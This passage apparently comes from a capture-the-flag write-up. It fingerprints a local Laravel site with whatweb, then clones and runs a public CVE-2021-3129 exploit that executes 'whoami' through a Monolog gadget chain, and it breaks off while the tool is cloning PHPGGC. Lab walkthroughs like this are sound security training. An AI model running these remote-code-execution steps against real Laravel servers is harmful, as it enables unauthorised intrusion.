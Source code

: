 ![](img/2022-06-01-18-22-26.png)
So we can start the enumeration for this webpage:
```bash
❯ whatweb localhost:8000
http://localhost:8000 [200 OK] Cookies[XSRF-TOKEN,laravel_session], Country[RESERVED][ZZ], HTML5, HttpOnly[laravel_session], IP[127.0.0.1], Laravel, PHP[7.4.22], Title[Laravel], X-Powered-By[PHP/7.4.22]
```
We can see the port 8000 is hosting a laravel application. As we don't know the version, we can blindly try to use this [exploit](https://github.com/nth347/CVE-2021-3129_exploit):
```bash
❯ git clone https://github.com/nth347/CVE-2021-3129_exploit
❯ cd CVE-2021-3129_exploit
❯ python3 exploit.py http://localhost:8000 Monolog/RCE1 whoami
[i] Trying to clear logs
[+] Logs cleared
[i] PHPGGC not found. Cloning it
Cloning into 'phpggc'...
remote: Enumerating objects: 2872, done.
```